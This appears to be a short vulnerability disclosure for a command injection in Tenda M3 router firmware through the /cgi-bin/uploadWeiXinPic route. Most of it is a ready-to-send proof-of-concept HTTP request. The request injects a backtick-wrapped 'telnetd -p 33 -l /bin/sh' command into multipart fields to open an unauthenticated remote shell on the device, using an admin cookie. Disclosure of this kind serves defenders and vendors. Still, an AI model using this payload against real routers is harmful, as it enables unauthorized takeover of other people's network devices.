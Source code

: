 # Tenda M3 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda M3 1.10 V1.0.0.12(4856) devices. An HTTP request parameter is used in command string construction within the handler function of the /cgi-bin/uploadWeiXinPic route. This could lead to Command Injection via Shell Metacharacters.

![1](./1.jpg)

![2](./2.jpg)



![2](./3.jpg)

![4](./4.jpg)

When we send packets, the router will be shell



```
POST /cgi-bin/uploadWeiXinPic HTTP/1.1
Host: 192.168.10.1
Referer: http://192.168.10.1/login.html
Cookie: bLanguage=cn; user=admin; workMode=slave
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 334

-----------------------------11

`telnetd -p 33 -l /bin/sh`aa-------


-----------------------------11
22----

#_logoo --------------------------11
33----

-----------------------------11
44----

-----------------------------11
55----

`telnetd -p 33 -l /bin/sh`aa--filename

-----------------------------11
77--11
```







![poc](./poc.jpg)

